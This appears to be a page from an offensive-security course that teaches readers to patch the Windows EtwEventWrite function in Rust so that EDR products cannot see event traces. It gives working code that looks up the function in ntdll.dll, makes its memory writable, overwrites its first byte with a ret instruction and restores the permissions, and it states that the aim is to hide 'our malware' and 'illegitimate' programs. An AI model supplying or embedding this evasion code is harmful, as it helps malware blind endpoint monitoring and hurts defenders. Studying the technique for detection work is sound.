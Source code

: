 +++
title = "Patch ETW"
weight = 9
+++

To detect potential threats, EDRs can collect information on a Windows system. To retrieve this information, EDRs use **ETW** (**Event Tracing for Windows**). ETW is an event-tracking mechanism built into Windows. It is a function for tracing and logging events triggered by applications in user mode and drivers in kernel mode, in a log file. Events can be consumed in real time or from a log file. For example, events can be consumed to debug an application.

In this course, we'll be looking to develop a patch to bypass the ETW function. This will prevent our malware, for example, from being detected by EDRs. Contrary to popular belief, ETW is not that difficult to bypass.
First of all, you need to know that in user mode, ETW-related functions have been implemented in `ntdll.dll` and that ETW can be bypassed during the process.
With this information and by disassembling `ntdll.dll`, we can see that the `EtwEventWrite` function is commonly called when ETW is used by security products.
According to recent research, the `EtwEventWrite` function can be patched by returning a simple return when the function is called. Adam Chester has produced some very interesting documentation on the subject ([https://blog.xpnsec.com/hiding-your-dotnet-etw/](https://blog.xpnsec.com/hiding-your-dotnet-etw/)).
So we're going to develop a function in Rust, which will enable us to patch the `EtwEventWrite` function. This function can then be added to the code of an illegitimate program to prevent the creation of ETW events, for example.
To do this, you'll need to retrieve the handle of the `ntdll.dll`, and then the address of the `EtwEventWrite` function. In Rust, this can be done using the `GetModuleHandleA` and `GetProcAddress` functions of the windows crate. To save time later on, I'm going to create a path variable containing an array with an immediate return instruction (`ret`).

```rust
let patch = [0xc3];
let handle = GetModuleHandleA(s!("ntdll.dll")).unwrap();
let etw_addr = GetProcAddress(handle, s!("EtwEventWrite")).unwrap();
```

Next, we'll try to change the memory permissions at the address of the `EtwEventWrite` function to enable writing. This step is necessary because we need to be able to obtain write permissions temporarily, to enable the program to write to the location where the `EtwEventWrite` function is stored in memory.

```rust
if VirtualProtect(
    etw_addr as *mut c_void,
    1,
    PAGE_READWRITE,
    &mut old_permissions,
).is_err()
{
    panic!("[-] Failed to change protection.");
}
```

Now that we have the right to write to memory at the address of the `EtwEventWrite` function, we'll write a return instruction at the address of the `EtwEventWrite` function. This instruction replaces the start of the function, resulting in immediate exit without execution of the rest of the function. You can also use the `WriteProcessMemory` function in the windows crate.

```rust
if WriteProcessMemory(
    GetCurrentProcess(),
    etw_addr as *mut c_void,
    patch.as_ptr().cast(),
    1,
    None,
).is_err()
{
    panic!("[-] Failed to overwrite function.");
}
```

All that's left is to restore memory rights to their original state, after our patch has been written. We can reuse the `VirtualProtect` function to do this.

```rust
if VirtualProtect(
    etw_addr as *mut c_void,
    1,
    old_permissions,
    &mut old_permissions,
).is_err()
{
    panic!("[-] Failed to restore permissions.");
}
```

You can add this function to your program to patch the ETW. In the code, you'll find an example of a practical case with the ETW function implemented and working, as well as the function itself.
